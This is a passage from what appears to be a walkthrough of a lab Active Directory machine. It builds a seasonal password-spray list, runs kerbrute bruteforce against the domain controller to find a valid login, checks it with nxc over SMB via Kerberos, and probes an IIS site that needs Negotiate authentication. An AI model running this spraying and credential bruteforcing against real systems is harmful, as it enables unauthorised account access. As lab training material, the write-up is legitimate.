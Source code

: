 ```console
Aaron.Norman:Winter2023
Aaron.Norman:Winter2024
Aaron.Norman:Winter2023!
Aaron.Norman:Winter2023@
Aaron.Norman:Winter2023#
Aaron.Norman:Winter2023&
Aaron.Norman:Winter2023?
Aaron.Norman:Winter2023*
Aaron.Norman:Winter2024!
Aaron.Norman:Winter2024@
```
Do this for all users and all password in the same file

```bash
kerbrute bruteforce -v --domain "lustrous2.vl" --dc 10.10.103.182 creds.txt

2024/09/19 19:26:06 >  [+] VALID LOGIN:Emma.Bell@lustrous2.vl:REDACTED
```
```bash
# Note u need to use the FQDN because we are using kerberos authentication

nxc smb lus2dc.lustrous2.vl -u 'Emma.Bell' -p 'REDACTED' -k
SMB         lus2dc.lustrous2.vl 445    lus2dc           [*]  x64 (name:lus2dc) (domain:lustrous2.vl) (signing:True) (SMBv1:False)
SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] lustrous2.vl\Emma.Bell:REDACTED
```
## Get a authentication on the WebApp

Ok now as we saw before, there is a port 80 but trying curl :

```bash
curl 'http://lus2dc.lustrous2.vl/' -v      
*   Trying 10.10.103.182:80...
* Connected to lus2dc.lustrous2.vl (10.10.103.182) port 80 (#0)
> GET / HTTP/1.1
> Host: lus2dc.lustrous2.vl
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Transfer-Encoding: chunked
< Server: Microsoft-IIS/10.0
< WWW-Authenticate: Negotiate
< X-Powered-By: ASP.NET
< Date: Thu, 19 Sep 2024 17:38:07 GMT
< 
* Connection #0 to host lus2dc.lustrous2.vl left intact
```
And if we go in firefox we gonna have a blank site

We need to talk to this webapp with a ccache to get a valid user and be authenticate

So first configure your ```/etc/krb5conf``` like that :
